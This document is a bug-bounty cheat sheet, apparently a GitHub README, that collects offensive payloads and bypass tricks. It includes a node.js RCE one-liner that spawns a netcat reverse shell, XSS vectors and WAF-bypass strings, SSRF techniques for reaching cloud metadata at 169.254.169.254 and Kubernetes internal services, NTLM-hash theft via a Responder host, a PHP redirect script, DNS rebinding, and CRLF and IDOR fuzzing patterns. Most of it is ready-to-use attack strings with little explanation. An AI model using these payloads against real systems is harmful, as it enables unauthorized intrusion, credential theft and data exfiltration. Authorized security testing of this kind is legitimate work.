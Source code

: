 # General tips
changing Exif metadata of an image can lead to XSS, RCE ...  [learn more](https://gokulvinesh.medium.com/rce-xss-via-image-exif-metadata-dddf33dadb41).
# RCE
1-If you discover a node.js template area, you should try triggerable node payload </br>
`require('child_process').exec('nc -e sh ip port');{src:/bin/sh/}`

# XSS
1-The new reportError() function enables a quite amusing XSS vector:
```
window.name='alert(1)'
reportError(name , enerror=eval)
```
2-If you see `returnTo=` in login url , add `javascript:alert(1)` and login > xss alert.<br>
3-Amazon CloudFront WAF sometimes can be easily bypassed with `<svg onload=(alert)(1)` instead of `<svg onload=alert(1)`<br>
4-Bypass Waf <br>
```
<details%0Aopen%0AonToGgle%0A=%0Aabc=(co\u006efirm);abc%28%60xss%60%26%2300000000000000000041//
```
5-Bypass XSS WAF protection using a comment between a JS function name and parameters
```
<img/src/onerror=alert/*1337*/(1)>
<img/src/onerror=alert//&NewLine;(2)>
<img/src/onerror=alert&sol;**&sol;(3)>
```
<br>
6-Bypass XSS WAF protection using Whitespace Separators between a JS function name and parameters <br>

```
<img/src/onerror=alert&#xFEFF;(1337)>
```
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/Whitespace%20Separators.jpeg)

# SSRF
1-Try other URL schemes:<br>
```
• file:// (file read)
• netdoc:// (file read)
• dict://
• gopher://
• jar://
• ldap://
• and more!
```
<br>
You might be able to get file read.
<br>
Or send multi-line requests to gain additional impact
<br>
(Ex: gopher + redis = likely RCE)<br>
<br>

2-Is the target running Windows?

Can't hit internal services?

(Well, try this even if you can)

Try to steal NTLM hashes with Responder.

`/vulnerable?url=http://your-responder-host`
<br><br>
3-Try alternative representations of IP addresses.

IPs can be represented in many ways including:
```
• octal
• decimal
• hexadecimal
• etc.
```
Try different representations.

You might get lucky.
<br><br>
4-Can't hit `169.254.169.254`?

On AWS, "instance-data" resolves to the metadata server.

Try hitting `http://instance-data` instead.
<br><br>
5- Know your target's technologies.

Look at job postings!

You might not be able to hit a meta-data service.

But there are likely other internal services!

(ex: I've pulled data from an internal Elasticsearch instance)
<br><br>
6- Are they using Kubernetes?

Search Burp history for `.default.svc` or `.cluster.local`

If you find references, try to hit them.

Also, try to hit the Kubernetes API: `https://kubernetes.default.svc`
<br><br>
7- In Kubernetes, you should be brute-forcing for:

`HOSTNAME.<some-namespace>.svc.cluster.local`

I often use Burp Intruder: `FUZZ.default.svc.cluster.local`

Need better wordlists?

Scrape helm charts from ArtifactHub.
<br><br>
8- Can't supply a full URL? You can still get SSRF!

If your input is used to build a URL, THINK.

Learn about URL structures.

The following 4 characters have led to many SSRFs:
```
• @
• ?
• #
• ;
```
An example is in the picture:
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/images/img1.jpeg)
<br><br>
9- If your injection is down the path, traverse!
```
GET /vulnerable?id=1234

|> app fetches: http://some-api/api/v1/1234
```
```

GET /vulnerable?id=../../

|> app fetches: http://some-api/api/v1/../../
```

Find an open redirect & you probably have SSRF.

Or likely can hit internal endpoints.

10- Use Hostnames Instead of IPs

Use services like `http://nip.io` to bypass direct IP bans. 

Here are some examples. All of these resolve to `169.254.169.254`.
```
http://169.254.169.254.nip.io
http://169-254-169-254.nip.io
http://a9fea9fe.nip.io (hexadecimal IP notation)
```
11- HTTP Redirects

Use redirects from a custom domain to a blocked IP to catch applications off-guard! 

Here’s a simple PHP script to perform the redirect.

`<?php header(“Location: http://169.254.169.254/”) ?>`
12- DNS Rebinding

Use TOCTOU vulnerabilities, by providing alternating DNS responses to breach. 

Set up a DNS server that responds with two different IPs on alternating requests, one is allowed through the `ip_is_blocked()` function, and the other is not.

13-Non-Standard IP Notations

Octal, hexadecimal, integer, IPv6 can bypass some IP blockages! 

All these will be interpreted as `169.254.169.254`:
```
025177524776 (octal)
0xa9fea9fe (hexadecimal)
2852039166 (integer)
::ffff:a9fe:a9fe (IPv6)
```
# Rate limit bypass
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/Rate%20limit%20bypass.jpeg)
# Line terminators
For XSS / CRLF injection.<br>
🔹LF: %0A (\u000A)<br>
🔹VT: %0B (\u000B)<br>
🔹FF: %0C (\u000C)<br>
🔹CR: %0D (\u000D)<br>
🔹CR+LF: %0D%0A (\u000D\u000A)<br>
🔹NEL: %C2%85 (\u0085)<br>
🔹LS: %E2%80%A8 (\u2028)<br>
🔹PS: %E2%80%A9 (\u2029)<br>
# IDOR:
1-<br>
```
/api/getUser$FUZZ$
-> /api/getUserv1
-> /api/getUserBeta
```
